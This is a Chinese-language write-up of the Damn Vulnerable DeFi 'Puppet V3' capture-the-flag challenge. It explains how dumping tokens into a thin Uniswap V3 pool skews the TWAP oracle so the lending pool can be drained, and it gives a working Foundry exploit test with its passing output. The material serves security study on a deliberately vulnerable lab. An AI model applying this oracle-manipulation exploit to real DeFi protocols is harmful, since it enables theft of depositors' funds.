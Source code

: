 ## 题目 [Puppet V3](https://github.com/theredguild/damn-vulnerable-defi/tree/v4.0.0/src/puppet-v3)

无论是熊市还是牛市，真正的 DeFi 开发者都在不断建设。还记得之前你帮助过的借贷池吗？他们现在推出了一个新版本。  

这次他们使用了 Uniswap V3 作为预言机。没错，不再使用现货价格了！这次借贷池会查询资产的时间加权平均价格，并且使用了所有推荐的库。  

Uniswap 市场中有 100 WETH 和 100 DVT 的流动性，而借贷池中有一百万个 DVT 代币。  

你手上有 1 ETH 和一些 DVT，从脆弱的借贷池中拯救所有人，并将代币发送到指定的回收账户。  

注意：这个挑战需要一个有效的 RPC URL 来将主网状态分叉到你的本地环境。  

## 题解
PuppetV3Pool 是一个借贷池，允许用户通过抵押 WETH 来借出 DVT。它依赖 Uniswap V3 的时间加权平均价格（TWAP）作为预言机，用于确定借款时所需的抵押金额。用户借款时必须存入 3 倍于借款价值的 WETH 作为抵押。  

与之前一样，由于池子比较薄（100 WETH : 100 DVT），我们可以卖出所有的 DVT。TWAP 计算的是过去 10 分钟的平均价格。之后我们需要等平均价格到我们可以把借贷池掏光的时候，便发起借贷。  

POC:  
``` solidity
    function test_puppetV3() public checkSolvedByPlayer {
        ISwapRouter swapRouter = ISwapRouter(0xE592427A0AEce92De3Edee1F18E0157C05861564);

        token.approve(address(swapRouter), type(uint256).max);
        weth.approve(address(lendingPool), type(uint256).max);

        swapRouter.exactInputSingle(
            ISwapRouter.ExactInputSingleParams({
                tokenIn: address(token),
                tokenOut: address(weth),
                fee: FEE,
                recipient: player,
                deadline: block.timestamp,
                amountIn: PLAYER_INITIAL_TOKEN_BALANCE,
                amountOutMinimum: 0,
                sqrtPriceLimitX96: 0
            })
        );

        for (uint256 i = 0; i < 70; i++) {
            skip(1);
            if (weth.balanceOf(player) > lendingPool.calculateDepositOfWETHRequired(LENDING_POOL_INITIAL_TOKEN_BALANCE)) {
                lendingPool.borrow(LENDING_POOL_INITIAL_TOKEN_BALANCE);
                console.log("i:", i);
                break;
            }
        }

        token.transfer(recovery, LENDING_POOL_INITIAL_TOKEN_BALANCE);
    }
```
运行测试：
```
forge test --mp test/puppet-v3/PuppetV3.t.sol -vv
```
测试结果：
```
Ran 2 tests for test/puppet-v3/PuppetV3.t.sol:PuppetV3Challenge
[PASS] test_assertInitialState() (gas: 23855)
[PASS] test_puppetV3() (gas: 1963291)
Logs:
  i: 69

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 1.20s (8.54ms CPU time)
```